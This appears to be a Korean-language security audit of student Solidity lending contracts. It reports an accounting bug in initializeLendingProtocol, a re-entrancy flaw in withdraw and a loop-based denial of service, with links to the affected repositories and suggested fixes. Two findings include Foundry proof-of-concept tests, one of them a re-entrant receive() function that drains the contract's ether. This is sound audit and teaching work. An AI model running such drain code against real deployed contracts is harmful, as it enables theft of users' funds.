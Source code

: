 ## 1. initializeLendingProtocol 함수 구현 오류

### 설명
[DreamAcademyLending.sol 127-128행](https://github.com/dlanaraa/Lending_solidity/blob/55071b255a24d87517629b1d37672bc4ab580acc/src/DreamAcademyLending.sol#L127-L128)에서 특정 account에 대한 잔고를 보관하는 변수인 _depositETH와 _depositUSDC의 값을 동시에 누적시키고 있어서

실제로는 address(0x0) 의 reserve만 보냈더라도 잔고에는 _depositUSDC까지 올라가는 결과가 발생하여, withdraw함수에서 인출 가능합니다.

```
function testWithdrawAtt() external {
    dreamOracle.setPrice(address(0x0), 1 ether);
    dreamOracle.setPrice(address(usdc), 1 ether);

    usdc.transfer(address(lending), 1000 ether);
    lending.initializeLendingProtocol{value: 1000 ether}(address(usdc));

    // 강제로 0으로 만듬.
    vm.deal(address(this), 0 ether);
    usdc.transfer(user1, usdc.balanceOf(address(this)));

    console.log("before withdraw eth: %d", address(this).balance);
    console.log("before withdraw usdc: %d", usdc.balanceOf(address(this)));

    lending.withdraw(address(usdc), 1000 ether);
    lending.withdraw(address(0x0), 1000 ether);

    console.log("after withdraw eth: %d", address(this).balance);
    console.log("after withdraw usdc: %d", usdc.balanceOf(address(this)));
}
```

### 파급력
심각도는 Critical로써 사용자는 ether 혹은 usdc만 initializeLendingProtocol함수를 통해 실제 예치하지 않은 컨트랙트 내의 다른 토큰을 withdraw 할 수 있게되거나 borrow를 통해 비정상적으로 다른 토큰을 빌려갈 수 있습니다.

### 해결방안
해당 함수가 external 이기때문에 함수 내부에서 require로 컨트랙트의 admin 만 호출 가능하게하고, 그게 아니면 실제 입금한 자산에 대해서만 잔고를 올리도록 해야합니다.

### 해당 취약점 발견된 목록
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L44)

## 2. withdraw에서 call 사용하여 ether 반환할때 re-entrancy 취약점

### 설명
[DreamAcademyLending.sol 130행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)에서 call을 사용하여 ether를 전송하는데, 대상 account가 CA 인경우에 해당 CA에 구현된 receive에서 여러번 withdraw를 호출하면 Lending contract의 ether잔고를 (특정 account가 입금한 양보다 더 많이)인출 할 수 있다.

```
function testWithdrawAtt() external {
    vm.deal(address(lending), 30 ether); // 비교를 위해 Lending컨트랙트의 잔고를 30으로 맞춰둔다.
    lending.deposit{value: 1 ether}(address(0x0), 1 ether); // 공격 CA는 단 1 ether만 deposit
    vm.deal(address(this), 0 ether);
    console.log("Lending: balance before withdraw: %d", address(lending).balance); // 원래있던 30 ether + 공격자 1 ether deposit 해서 31 ether
    lending.withdraw(address(0x0), 1 ether);
    console.log("Lending: balance after withdraw: %d", address(lending).balance); // 0 ether
    console.log("Attacker: balance after withdraw", address(this).balance); // 31 ether
}

receive() external payable {
    if(address(lending).balance >= 1 ether){
        lending.withdraw(address(0x0), 1 ether);
    }
}
```

### 파급력

심각도는 Critical로써 공격자가 Lending 컨트랙트의 모든 ether 잔고를 할 수 있거나 대출을 repay하지 않고 담보를 인출해 갈 수 있습니다.

### 해결방안
withdraw 함수 구현을 Checks Effects Interaction Pattern으로 변경해야합니다. [133행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L133)을 129행과 130행 사이로 이동시키면 됩니다.

### 해당 취약점 발견된 목록
* [Namryeong-Kim/Lending_solidity](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L280)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L207)

### 스크린샷
![image](https://user-images.githubusercontent.com/127647300/228128932-b8e8d5de-dd51-4d83-b059-a6169e8b7de7.png)


## 3. 서비스 거부 공격
### 설명
사용자 수 만큼 for loop(while loop) 을 돌아야할때, 공격자가 가스비를 많이 소모하게 하여 결국에 컨트랙트의 특정 기능(for loop이 있는)을 사용하지 못하게하거나 가스비가 매우 많이 들게 하는 공격

### 파급력
심각도는 Informational로써 자산이 탈취당하거나 공격자가 설계한 비정상적인 로직이 실행되는건 아니지만 잠재적인 위험 요소라고 판단됩니다.

### 해결방안
상황마다 달라서 명확한 해결책은 없고, 사용자나 공격자의 어떤 행동에 의해 반복문 실행 회수가 쉽게 증가하지 않는 구조가 가능할지 검토해봐야합니다.

### 해당 취약점 발견된 목록
* [Gamj4tang/Lending_solidity](https://github.com/Gamj4tang/Lending_solidity/blob/25387e051e05d5a3022425b8d2af366a6d9051bc/src/DreamAcademyLending.sol#L251)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L334)
* [jun4n/Lending_solidity](https://github.com/jun4n/Lending_solidity/blob/fd3baab9a9c6384e6dfb767c23ce2f81cc1de913/src/DreamAcademyLending.sol#L86)
* [Sophie00Seo/Lending_solidity](https://github.com/Sophie00Seo/Lending_solidity/blob/e9ab337f8c8bb629c66613ef050b7533cbeee651/src/DreamAcademyLending.sol#L76)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L50)
